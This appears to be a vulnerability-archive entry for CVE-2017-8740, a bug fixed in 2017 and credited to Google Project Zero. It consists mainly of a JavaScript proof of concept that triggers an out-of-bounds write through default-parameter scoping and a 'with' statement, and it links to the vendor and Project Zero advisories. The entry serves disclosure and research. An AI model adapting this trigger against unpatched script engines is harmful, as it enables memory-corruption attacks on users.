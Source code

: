 # CVE-2017-8740

- Fix: Sep 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
let h = function f(a0 = (function () {
    a0;
    a1;
    a2;
    a3;
    a4;
    a5;
    a6;
    a7 = 0x99999;  // oob write

    with ({});
})(), a1, a2, a3, a4, a5, a6, a7) {
    function g() {
        f;
    }
};

for (let i = 0; i < 0x10000; i++) {
    h();
}
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8740)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1310)
